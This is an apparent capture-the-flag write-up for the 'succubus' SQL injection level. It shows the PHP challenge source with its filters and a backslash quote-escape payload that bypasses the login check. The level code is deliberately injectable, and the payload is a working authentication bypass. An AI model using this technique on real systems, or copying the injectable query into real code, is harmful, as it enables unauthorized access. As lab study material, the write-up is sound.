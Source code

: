 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

QUERY: select id from prob_succubus where id='' and pw='';
       Giving a \ will numb the character behind it and consider it as a string
       select id from prob_succubus where id='\' and pw='';
       Makes the ' behind slash a part of string; "'\' and pw='"
       
PAYLOAD: ?id=\&pw=or 1%23
OUTPUT: select id from prob_succubus where id='\' and pw='or 1#'

Succubus clear
